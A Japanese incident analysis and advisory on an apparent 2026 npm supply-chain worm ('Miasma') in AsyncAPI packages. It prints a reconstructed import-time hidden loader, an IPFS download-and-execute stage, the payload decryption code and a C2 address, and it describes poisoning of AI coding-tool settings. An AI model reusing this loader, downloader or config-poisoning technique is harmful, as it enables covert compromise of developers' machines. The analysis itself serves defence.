





## 概要

2026年7月14日、AsyncAPI エコシステムを標的とした大規模なソフトウェアサプライチェーン攻撃が発生しました。攻撃者は AsyncAPI ジェネレーターリポジトリの `pull_request_target` ワークフローに存在した脆弱性を悪用し、書き込み権限を持つ `npm publish` トークンを窃取しました。この結果、週間数百万回ダウンロードされる主要パッケージを含む複数の公式 npm パッケージに、悪意あるコード（「Miasma ワームフレームワーク」の亜種）が注入・公開されました。

本マルウェアは、従来の `preinstall` などインストール時スクリプトを使いません。パッケージが `require()` または `import` された実行時（ランタイム）に、難読化されたダウンローダを経由して子プロセスを起動します。そして IPFS から暗号化された巨大なペイロード（`sync.js`）をダウンロードして実行する、高度な攻撃チェーンを形成します。さらに、窃取した認証情報を利用して npm、PyPI、crates.io に悪性パッケージを再公開する自己増殖（ワーム）能力を備えます。加えて、ローカルの AI コーディングツール設定を改ざんして感染を永続化させる新機軸の機構も持ちます。

### インシデントタイムライン (2026年7月14日)

タイムラインの公開時刻は、GMO Flatt Security の記載する JST を正本とします。攻撃チェーンの UTC イベント（プルリクエスト洪水・workflow 完了・不正 commit）は Aikido Security の解析に基づきます。

| 時刻 (UTC) | 時刻 (JST) | 出来事 / イベント | 補足 |
|---|---|---|---|
| 04:10 | 13:10 | ペイロードのビルドコメント時刻 | `boot-worm.js` 先頭コメント `at=1784002253701` に相当。公開時刻ではなくビルド時刻を示す |
| 05:08 | 14:08 | 攻撃者が 37 件のプルリクエストを作成 | `pull_request_target` の悪用起点 |
| 05:16 | 14:16 | 脆弱な workflow が完了 | `NPM_TOKEN` の奪取が成立 |
| 06:58 | 15:58 | `next` ブランチへの不正 commit | 正規パイプライン経由のリリース準備 |
| 07:10 | 16:10 | generator 系 3 パッケージ公開 | `@asyncapi/generator@3.3.1`、`generator-helpers@1.1.1`、`generator-components@0.7.1` |
| 08:06 | 17:06 | `@asyncapi/specs@6.11.2-alpha.1` 公開 | specs 系の第一弾 |
| 08:30 | 17:30 | `@asyncapi/specs@6.11.2` (安定版) 公開 | 影響範囲が大幅に拡大 |
| 12:03 | 21:03 | GMO Flatt Security による対応指針ブログ公開 | 日本コミュニティ向けの注意喚起と対応策のアドバイザリ |

なお、レジストリプロキシ Takumi Guard は悪性パッケージの**公開から約2分**で検知・ブロックしたと報告されています（絶対時刻の根拠は非公開）。

### 影響を受けたパッケージとバージョン

| パッケージ名 | 侵害されたバージョン | 状態 |
|---|---|---|
| `@asyncapi/specs` | `6.11.2`, `6.11.2-alpha.1` | テイクダウン済 |
| `@asyncapi/generator` | `3.3.1` | テイクダウン済 |
| `@asyncapi/generator-helpers` | `1.1.1` | テイクダウン済 |
| `@asyncapi/generator-components` | `0.7.1` | テイクダウン済 |

## マルウェアの特徴

今回の AsyncAPI 侵害で使用されたマルウェアフレームワーク「Miasma」は、以下の高度な機能的特徴を備えます。

> [!IMPORTANT]
> **「実装された能力」と「本検体で有効だった挙動」は区別してください。** 以下の特徴はマルウェアフレームワークの実装能力です。Aikido Security の toggle 単位の解析によると、今回配布されたビルドは `recon=false`（認証情報収集）・全 propagation（自己拡散）無効・`evasion=false`・`metamorphic=false`・AIツール汚染無効でビルドされていました。**本検体で実際に有効だったのは、永続化・C2 ビーコン・遠隔シェル（`ShellExec`）です。** ただし遠隔シェルが有効なため、攻撃者は同等の操作を後から実行できます。GMO Flatt Security の記事もコード解析ベースの能力説明であり、実行の証拠は提示していません。
>
> なお、コード内の自己識別名は `M-RED-TEAM v6.4` で、「Miasma」はビルドターゲット名やアーティファクト名などの branding に由来する呼称です。単一の攻撃者か複数関与かは、現時点では帰属未確定とされています。

### 1. 実行時（ランタイム）トリガーとステルス性

従来のサプライチェーン攻撃で多用された `package.json` の `scripts`（`preinstall` 等）を使いません。モジュールのインポート（`require()` / `import`）をトリガーにして動作します。パッケージをインストールしただけでは発火せず、コード上で読み込まれた時点で発火します。また、起動された子プロセスは `detached: true`、`stdio: 'ignore'`、`windowsHide: true` が設定され、親プロセスの終了後も独立してステルス実行を続けます。

### 2. 多層暗号化・難読化ペイロード（IPFS配信）

第1段階のコードは、ローテーション難読化されたダウンローダに過ぎません。悪性ペイロード本体は IPFS（InterPlanetary File System）経由で `sync.js` (約 8.2 MB) として取得されます。このペイロードには、HKDF-SHA256 で導出した鍵による AES-256-GCM 暗号化、および printable ASCII 領域（0x21〜0x7E）の ROT-4 シーザー暗号による2重の防御が施されています。ペイロードは specs 系（8,243,380 バイト）と generator 系（8,254,481 バイト）で異なる CID・異なる復号後ハッシュを持つ2系統が確認されています。

### 3. クロスプラットフォーム永続化と AI ツール汚染

OSごとの永続化（Linux: `systemd` ユーザーサービス、macOS: シェルRCファイルの書き換え、Windows: レジストリ `Run` キー）を行います。加えて、ローカルの AI コーディングツール（Claude Code、Gemini、VS Code、Cursor）の設定ファイルを書き換えます。この結果、感染した開発環境のリポジトリを AI ツールで操作した際、自動実行マクロ等をトリガーに再感染が引き起こされます。

### 4. クレデンシャルのECDH暗号化とC2/P2P送出

AWS、Kubernetes、Git、npm、CI/CD などの環境変数・設定ファイルからトークンや秘密鍵を収集します。収集データは、`secp256k1` 鍵による ECDH で導出した共有秘密を用いて AES-256-GCM で暗号化し、暗号文には別途 ECDSA 署名を付けて、C2 サーバーまたは IPFS 経由で送出します。C2サーバーは `85.137.53.71:8080` を使用し、30秒間隔（20%ジッタ）で通信します。（前述のとおり、認証情報収集は本検体では無効化されていました。）

### 5. マルチチャネル P2P と LAN 横展開

C2、IPFS、Nostr、libp2p/GossipSub、BitTorrent DHT (`router.bittorrent.com`、`dht.transmissionbt.com`)、mDNS、Ethereum (ServiceDirectory) など7つの通信チャネルを実装します。ただし Aikido Security の解析によると、**実際のビーコン送信とコマンド受信を担うのは HTTP `8080` の1チャネルのみ**です。他のチャネルはペイロード更新の配信・ピア探索・ゴシップ伝播などに役割が限定され、指令の中継は行いません。また、インターネットから隔離された環境でも、RFC 1918 プライベートアドレス空間のローカル `/24` サブネット上の全ホスト（ポート 4100）をスキャンします。感染ノード間でルーティング情報を相互注入し、メッシュネットワークを形成します。

### 6. 三大エコシステム（npm, PyPI, crates.io）への自己拡散

窃取した公開トークンを用いて、npm、PyPI、crates.io のパッケージレジストリに対し、悪性コードを注入した自身のコピーを自動的に publish して拡散します。この際、最大4世代のスポーン証明書チェーン（ECDSA署名）による制御が働きます。加えて、ハッシュ検出を避けるための変異エンジン（変数名のランダム化・ジャンクコードの挿入）が動作します。

### 7. サンドボックス・セキュリティ製品回避

実行前に環境チェックを行います。VMの検出（OUI や CPU文字列の走査）、EDR/ウイルス対策製品（CrowdStrike、SentinelOne、Defender 等）のプロセス検出、さらにロシア語ロケール（`ru`）の環境を検出した場合、即座に活動を停止する回避機構を有します。

## マルウェアの構造

Miasma ワームのインフラおよびモジュール構造を、C4 Model をベースに論理構造図として可視化します。

### システムコンテキスト図

システムコンテキスト図は、侵害された開発環境、攻撃者の制御用インフラ、外部のエコシステムレジストリ、IPFS などのネットワーク的連携を示します。



| システム | 役割 / 説明 |
|---|---|
| Miasma ワームプロセス | 感染した開発環境でステルス動作する Node.js バックグラウンドプロセス |
| C2 サーバー | 攻撃者がビーコン受信および指令送信するための司令塔 |
| IPFS ネットワーク | 巨大な第2段階ペイロード `sync.js` (8.2 MB) の配信に使用される分散型ファイルシステム (パブリックゲートウェイ `209.94.90.1` 経由) |
| パッケージレジストリ | ワームが収集した認証情報 (APIトークン) を利用して、さらなる悪性パッケージを公開・拡散する先（自己拡散は実装のみで本検体では無効） |
| P2P/DHT ネットワーク | Nostr、BitTorrent DHT などの通信経路。ペイロード更新配信・ピア探索に使用。指令の中継は担わない |
| LAN内ピア | イントラネット内の他ホスト。P2P メッシュを形成する探索対象（ポート 4100） |

### コンテナ図

コンテナ図は、感染端末内部で動作するマルウェアの構成コンテナを示します。モジュールの配置パス（サブディレクトリ）を正確に反映しています。



| コンテナ | 役割 / 説明 |
|---|---|
| 侵害パッケージ (Stage 0) | 正規の AsyncAPI パッケージのコード先頭に悪意ある `main()` を挿入したもの。インポート時に難読化コードを子プロセスで起動 |
| 難読化ダウンローダ (Stage 1) | HTTPS 通信で IPFS から 8.2 MB の `sync.js` を取得して OS 別のパスに配置し、実行 |
| Miasma コアエンジン | `sync.js` の本体。92,000行に及ぶ Node.js アプリケーション。マルウェアの各モジュールを制御・実行 |
| 通信オーケストレータ | C2、BitTorrent DHT 等の複数チャネルを並列制御し、暗号化・復号、フェイルオーバーを管理 |
| サブネットスキャナー | LAN 内の IP をポート 4100 でスキャンし、他ホストと P2P メッシュネットワークを形成 |
| AIツール汚染部 | 開発環境に存在する Claude Code、Gemini、VS Code などの AI 支援ツール設定を改ざん |
| 資格情報収集部 | 資格情報の自動収集を担当 |
| 自己拡散部 | 収集したトークンを使い、npm、PyPI、crates.io に自身の変異コピーを publish |
| 永続化・状態ストア | ディスク上の永続化パス。ローカルの ECDH 鍵ペアや実行状態を保持 |

### コンポーネント図

コンポーネント図は、Miasma コアエンジン（`boot-worm.js`）および周辺モジュールの内部クラスやコードファイルの関係性を示します。クラス名やコンポーネント構成は、一次情報の記載に基づきモジュール構造をモデル化した設計概念モデルです。



| コンポーネント | 役割 / 説明 |
|---|---|
| `DefaultSandboxGuard` | 起動直後に VM 照合、主要 EDR プロセス監視、ロシア語ロケールを検査し、安全を脅かす環境であれば即停止 |
| `ChannelOrchestratorImpl` | HTTP C2、DHT 等のフェイルオーバー、P2P中継処理などマルチパス通信を束ねるクラス |
| `CommandCipher` | ECDH 鍵共有によって得られた対称鍵を用い、データの送受信 (ビーコンやコマンド) を AES-256-GCM で暗号化 |
| `DefaultAiToolPoisoner` | AI 支援ツールの設定 (`.claude/settings.json`、`.gemini/settings.json` 等) を汚染 |
| `SubnetScanner` | イントラネットでポート 4100 への TCP 接続を 64並列・400ms タイムアウトで実行 |
| `SpawnCertVerifier` | 攻撃者のルート鍵から派生した最大 4 世代の ECDSA スポーン証明書を検証し、正規のワーム子孫であることを担保 |

## マルウェアが扱うデータ

Miasma ワームが収集・管理し、C2 や P2P 経由で送受信するデータの論理構造を整理します。以下の属性名やクラス定義は、一次情報ブログから読み解いたデータモデルの概念的な論理モデル例です。確認済みの定数（`kind=5`、`dataSource=1`、C2受け入れコマンド全12種、`maxGen=4` など）と、モデル化のために補った推定属性（`nodeId` の導出方法や `collectionStatus` の enum 値など）が混在する点に注意してください。

### 概念モデル

概念モデル（ER図）は、感染端末、攻撃者の秘密、窃取されるクレデンシャル、C2 から受領するコマンドおよびスポーン証明書の関係性を示します。



| エンティティ | 説明 |
|---|---|
| `INFECTED_NODE` | 感染した開発者の端末を表す中心エンティティ。OS、アーキテクチャ、ホスト情報等を属性として保持 |
| `NODE_KEY` | 感染端末上にファイル `~/node-key.json` として生成されるローカルの ECDH 鍵ペア |
| `CREDENTIAL` | 感染端末のメモリや設定ファイル、環境変数から収集された AWS、Kubernetes、Git、npm、CI/CD 等のトークンや秘密鍵 |
| `BEACON` | `85.137.53.71:8080` へ送信される定期パケット。感染状態や収集状況を包含 |
| `EXFIL_CHUNK` | 収集したクレデンシャルを暗号化し、C2 または IPFS に送出するための分割データ |
| `COMMAND` | C2 からのレスポンス (`resp.commands` 等) に載って戻る、シェル実行やファイル設置等の指示 (C2受け入れコマンドは全12種) |
| `SPAWN_CERTIFICATE` | ワームの信頼性を検証するために子ワームに添付される、最大 4 世代の署名チェーン |

### 情報モデル

情報モデル（クラス図）は、Miasma マルウェアの主要モジュールが処理するデータ構造とデータ型を示します。



#### 各情報クラスの定義とデータ型

##### 1. `InfectedNode` (感染ホストメタデータ)

- `nodeId`: SHA-256 でハッシュ化されたマシン固有 ID（MACアドレスとホスト名の組み合わせ等）
- `collectionStatus`: `init`、`harvesting`、`completed`、`failed` のいずれかの状態を示す enum 文字列

##### 2. `NodeKey` (鍵共有管理)

- `privateKeyB64` / `publicKeyB64`: `secp256k1` 曲線の ECDH 鍵ペア
- `getSharedSecret()`: 攻撃者の公開鍵とローカル秘密鍵から ECDH 共有秘密を導出

##### 3. `Credential` (収集データ)

- `source`: クレデンシャルの出所（例: `env`、`aws_credentials`、`kube_config`、`npmrc`、`git_config`）
- `rawValue`: 読み取られた生値文字列

##### 4. `ExfilChunk` (送出データ)

- `kind`: `KIND_DATA_EXFIL_CHUNK`（値 `5` 定数）
- `dataSource`: `DS_CREDENTIAL`（値 `1` 定数）
- `encryptedPayload`: 暗号化された `Credential` 配列を Base64 文字列化したもの

##### 5. `Command` (遠隔制御命令)

- `type`: コマンド名（`ShellExec`、`FilePut`、`CollectData`、`Propagate` などの遠隔指令。一部は解析上の想定）
- `arguments`: JSON 形式のパラメータ文字列

##### 6. `SpawnCertificate` (拡散制御)

- `generation`: 整数型。親から拡散されるたびに `+1` される（`maxGen=4` で拡散抑止）
- `signatureChain`: 各親ノードの秘密鍵で署名された証明書の連結文字列（署名アルゴリズムは詳細未確認）

## マルウェア公開までの流れ

Miasma ワームがどのように構築され、ターゲット環境に送り込まれたかについて、そのメカニズムと手順を解説します。

### 1. 初期アクセスと公開権限の奪取

攻撃の起点として、攻撃者は AsyncAPI generator リポジトリの `pull_request_target` ワークフローの不安全な構成を悪用しました。

- `pull_request_target` ワークフローは、プルリクエスト送信者のフォークしたリポジトリからのコンテキストではなく、親リポジトリ（AsyncAPI 本家）のコンテキストで実行され、かつデフォルトで親リポジトリの `write` 権限やシークレットへのアクセスが可能
- 攻撃者は、このワークフローによって実行されるスクリプトを改ざんするプルリクエストを送信。ワークフローが発火した際、環境変数に格納されていた `NPM_TOKEN`（npmパッケージの公開権限を持つシークレットトークン）を奪取・外部送信

### 2. 正規 CI/CD パイプラインの悪用によるビルドと公開

攻撃者はトークンを直接自身の開発サーバーから使って publish するのではなく、本家リポジトリの `next` ブランチへの書き込み権限等を悪用しました。そして、**正規の GitHub Actions パイプラインを介して悪性パッケージをビルドおよびリリース**させました。

- このため、悪性パッケージは npm の trusted publishing により、GitHub Actions が OIDC で発行する短命の認証情報を用いて公開されました。あわせて、ソース・workflow・ビルド経路への検証可能なリンクを示す **SLSA Provenance Attestation** が生成されました
- パイプライン自体が侵害されている場合、形式上正しい provenance を伴います。したがって、検証ツール側の単純な「provenance 有無チェック」のみでは悪性コードの検知が困難になります（provenance はビルド元と経路を証明するものであり、ソースコードそのものの安全性を保証するものではありません）
- リビルド・公開に際して、攻撃者のビルドスクリプトに組み込まれた「変異エンジン（Mutation Engine）」が機能し、変数名の難読化、ダミーコードの挿入、シーザー暗号のシフト数をビルドのたびに自動変更してパッケージを生成しました

## マルウェアの発火プロセス

侵害されたパッケージが被害者の開発環境に読み込まれ、マルウェアが動作する際の発火プロセスと挙動を解説します。

### 1. インポート時の自動発火（Stage 0）

被害者が侵害バージョンを導入し、アプリケーション内・テスト・ビルド等でモジュールを `require()` または `import` すると、悪性コードの先頭に位置する `main()` が即座に起動します。

```javascript
// @asyncapi/specs/index.js (侵害コードの概念例)
const { spawn } = require('child_process');

async function main() {
  try {
    // 難読化したローダーコードを -e オプション経由で node 子プロセスとして非同期起動
    const child = spawn('node', [
      '-e',
      `const _0x5af5e1=_0x285e;function _0x285e(...` // 難読化されたダウンローダ本体
    ], {
      detached: true,     // 親プロセスが終了しても実行を維持
      stdio: 'ignore',    // 標準入出力を無視して画面に表示させない
      windowsHide: true   // Windows環境でコマンドプロンプト画面を非表示化
    });
    child.unref(); // 親プロセスから子プロセスの管理関係を分離
  } catch (error) {
    // 正規の動作を妨げないよう、エラーはサイレントに無視
  }
}
main();

// --- 以下、正規の specs index.js のエクスポートコード ---
// 実際の実装構造上、侵害パッケージの index.js は require() と module.exports で構成されています。
module.exports = require('./schemas/index.js');
```

### 2. IPFSからの第2段ペイロード取得（Stage 1）

前段で起動された node 子プロセス（ダウンローダ）は、難読化された文字列リストを解決します。そして IPFS のパブリックゲートウェイから `sync.js` (約 8.2 MB) を HTTPS ダウンロードします。

```javascript
// 難読化を解除した Stage 1 ダウンローダの模擬コード
const fs = require('fs');
const path = require('path');
const https = require('https');
const { spawn } = require('child_process');

const FILE_URL = 'https://ipfs.io/ipfs/Qm...'; // Miasma sync.js のCIDへのURL
const OS = process.platform;

// OS ごとの偽 NodeJS 永続化ディレクトリとパスの決定
let targetDir = '';
if (OS === 'linux') {
  targetDir = path.join(process.env.HOME, '.local/share/NodeJS');
} else if (OS === 'darwin') {
  targetDir = path.join(process.env.HOME, 'Library/Application Support/NodeJS');
} else if (OS === 'win32') {
  targetDir = path.join(process.env.LOCALAPPDATA, 'NodeJS');
}

const targetPath = path.join(targetDir, 'sync.js');

if (!fs.existsSync(targetDir)) {
  fs.mkdirSync(targetDir, { recursive: true });
}

// ファイルのダウンロードと起動
const file = fs.createWriteStream(targetPath);
https.get(FILE_URL, (response) => {
  response.pipe(file);
  file.on('finish', () => {
    file.close();
    // sync.js をバックグラウンドでステルス起動
    const child = spawn('node', [targetPath], {
      detached: true,
      stdio: 'ignore',
      windowsHide: true
    });
    child.unref();
    process.exit(0);
  });
});
```

### 3. ペイロードの自己復号と動作開始（Stage 2）

ダウンロードされた `sync.js` は、実行開始時に自身の末尾や内部変数に格納された Base64 文字列を抽出します。そして HKDF-SHA256 で導出した AES 鍵を用いて AES-256-GCM で復号し、さらに ROT-4 逆シフトをかけます。この結果、`boot-worm.js` の JavaScript ソースコード（約 92,000行）をメモリ上に復元し、`eval` または `vm.runInContext` 等で動的実行します。

```javascript
// 復号アルゴリズムの概念再現コード (Node.js)
const crypto = require('crypto');

function decryptPayload(encryptedB64, keyMaterial, iv, tag) {
  // 1. HKDF-SHA256 による鍵導出
  const ikm = Buffer.from(keyMaterial, 'utf-8'); // rt-file-key-material-v1
  const info = Buffer.from('rt-file-key', 'utf-8');
  const salt = Buffer.alloc(0); // 空のソルト

  const prk = crypto.createHmac('sha256', salt).update(ikm).digest();
  // HKDF-Expand (32バイト AES 鍵)
  const aesKey = crypto.createHmac('sha256', prk)
    .update(Buffer.concat([info, Buffer.from([1])]))
    .digest();

  // 2. AES-256-GCM 復号
  const decipher = crypto.createDecipheriv('aes-256-gcm', aesKey, iv);
  decipher.setAuthTag(tag);

  let decrypted = decipher.update(encryptedB64, 'base64', 'utf8');
  decrypted += decipher.final('utf8');

  // 3. シーザー暗号 (ROT-4) の逆シフト処理 (printable ASCII 0x21 - 0x7E 範囲)
  let result = '';
  for (let i = 0; i < decrypted.length; i++) {
    let code = decrypted.charCodeAt(i);
    if (code >= 0x21 && code <= 0x7E) {
      code = code - 4;
      if (code < 0x21) {
        code = 0x7E - (0x21 - code - 1);
      }
    }
    result += String.fromCharCode(code);
  }
  return result; // JavaScript ソースコード (boot-worm.js) の復元
}
```

## 対処方法

Miasma ワームに感染した疑いがある場合のインシデントハンドリング、およびクリーンアップ運用手順について解説します。

> [!WARNING]
> **対応の原則は「隔離 → 証拠保全 → 資格情報の失効 → 再イメージ／再構築」です。** 本検体は遠隔シェル（`ShellExec`）が有効なため、部分的なファイル削除だけでは端末の信頼性を回復できません。組織・CI 環境では、まずネットワークから隔離し、メモリ・通信状態・実行履歴などの揮発情報を保全してから、クリーンな端末で資格情報を失効させ、侵害端末は再構築してください。以下の `kill` / `rm` を用いた除去手順は、あくまで個人の開発環境向けの限定的な参考手順です。

### 1. 影響確認手順

開発端末または CI/CD 環境において、以下の手段を実行して感染の有無を調査します。

#### A. 利用中・導入中の依存関係の検査

ロックファイルやキャッシュ、古いファイルの誤検知を防ぐため、以下のコマンドで実際にインストールされている依存関係ツリーを確認します。

```bash
# npm プロジェクトでの確認
npm ls --all | grep -E '@asyncapi/specs|@asyncapi/generator'

# pnpm プロジェクトでの確認
pnpm why @asyncapi/specs

# yarn プロジェクトでの確認
yarn why @asyncapi/specs
```

補助確認として、ロックファイル内に対象の侵害バージョンが含まれているかも確認します。

```bash
grep -rE '6\.11\.2(-alpha\.1)?|@asyncapi/generator.*3\.3\.1|generator-helpers.*1\.1\.1|generator-components.*0\.7\.1' package-lock.json yarn.lock pnpm-lock.yaml 2>/dev/null
```

#### B. ドロップファイル・プロセスの存在確認

```bash
# ドロップファイルの確認 (Linux / macOS)
ls -la ~/.local/share/NodeJS/sync.js 2>/dev/null
ls -la ~/Library/Application\ Support/NodeJS/sync.js 2>/dev/null

# 永続化サービスの稼働確認 (Linux systemd)
systemctl --user status miasma-monitor 2>/dev/null

# 状態ストアおよびノード鍵の確認
ls -la ~/.config/.miasma/ ~/node-key.json 2>/dev/null

# AI コーディングツール設定の改変チェック
git diff HEAD -- .claude/ .vscode/tasks.json .gemini/ .cursor/rules/setup.mdc
```

### 2. 安全なマルウェアの除去手順

感染が確認された場合、以下の手順でプロセスを終了し、永続化ファイルを削除します。

#### A. 対象プロセスの特定と停止

通常の Node.js プロセスを誤って巻き込んで停止させないよう、稼働している `sync.js` プロセスを厳密に特定してから停止させます。

```bash
# 該当プロセスの PID 検索と確認
ps aux | grep 'sync.js'

# 特定された PID を指定してプロセスを終了 (例: PIDが1234の場合)
kill -9 1234

# Linux: systemd ユーザーサービスの無効化とリロード
systemctl --user stop miasma-monitor.service 2>/dev/null
systemctl --user disable miasma-monitor.service 2>/dev/null
rm -f ~/.config/systemd/user/miasma-monitor.service
systemctl --user daemon-reload
```

#### B. ファイルの物理削除

```bash
# Linux: 関連ディレクトリの削除 (事前にバックアップをとることを推奨)
rm -rf ~/.local/share/NodeJS/
rm -rf ~/.config/.miasma/
rm -f ~/node-key.json

# macOS: 関連ディレクトリの削除
rm -rf ~/Library/Application\ Support/NodeJS/
# .zshrc や .bashrc, .bash_profile などのシェル設定ファイルをテキストエディタで開き、
# Miasma に関連する自動起動コードブロックを手動で削除します。
```

```powershell
# Windows (PowerShell で実行する場合): ディレクトリおよびレジストリの削除
Remove-Item -Recurse -Force "$env:LOCALAPPDATA\NodeJS"
# Windows (コマンドプロンプト CMD で実行する場合): レジストリキーの削除
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v miasma-monitor /f
```

#### C. 開発環境・AI設定の修復

改ざんされた設定ファイルは、未コミットの正規の変更を破棄してしまわないよう注意します。`git diff` や `git status` で差分（悪意あるダウンロードスクリプト等）を確認してから、Git のクリーン状態に戻します。

```bash
# 変更内容の確認
git diff .claude/ .vscode/tasks.json .gemini/ .cursor/rules/setup.mdc

# 対象ファイルだけを修復
git checkout -- .claude/settings.json .vscode/tasks.json .gemini/settings.json .cursor/rules/setup.mdc
```

### 3. 資格情報のローテーション

Miasma は感染直後、C2からの指示を待たずに窃取データを送信します。感染端末に存在した、以下のすべてのシークレットのローテーション（再発行）を実施してください。

1. **クラウド認証情報**: AWS Access Key/Secret Key、Google Cloud サービスアカウントキー、Azure クレデンシャル
2. **Kubernetes 構成ファイル**: `~/.kube/config` 内のアクセストークン・証明書
3. **リポジトリ / パッケージ管理**: GitHub Personal Access Token (PAT)、npm/PyPI/crates.io のデプロイ・公開トークン
4. **CI/CD 環境変数**: GitHub Actions Secrets や GitLab CI などの設定値
5. **ローカル SSH 秘密鍵**: `~/.ssh/` に格納されていた秘密鍵（関係するサーバーの `authorized_keys` からの削除）

## 予防のベストプラクティス

ソフトウェアサプライチェーン攻撃を防御し、Miasma を含む将来のワーム侵入を未然に防ぐためのベストプラクティスを定義します。

### 1. Lifecycle Script の無効化

CI/CD 環境やパッケージインストール時のスクリプト実行を原則無効化します。

```bash
# CI環境での実行例
npm ci --ignore-scripts
```

> [!IMPORTANT]
> 今回の AsyncAPI 侵害では、悪性コードが `index.js` の runtime モジュール内に直接埋め込まれており、インポート（`require()`）時に発火するため、`--ignore-scripts` のみでは防げませんでした。以下の Cooldown やレジストリレベルでのブロックと併用する必要があります。

### 2. Dependency Cooldown（min-release-age）の導入と注意点

パッケージがリリースされてから特定の期間（GMO Flatt Security による推奨値: 7日間、最低 3日間）が経過するまで、インストールを自動的に保留する検疫ポリシーを導入します。これにより、今回のように数時間〜数日でテイクダウンされた悪性バージョンが自社環境に混入することを防げます。

